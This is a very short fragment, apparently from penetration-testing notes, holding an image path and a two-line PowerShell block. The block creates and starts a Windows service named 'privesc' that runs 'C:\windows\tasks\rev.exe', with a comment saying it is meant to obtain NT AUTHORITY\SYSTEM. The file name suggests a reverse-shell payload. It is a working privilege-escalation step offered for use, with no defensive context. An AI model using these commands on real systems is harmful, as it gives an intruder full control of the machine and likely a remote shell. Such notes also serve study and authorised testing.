 # create service to get nt authority system

```powershell
sc create privesc binPath= "C:\windows\tasks\rev.exe"
sc start privesc
```
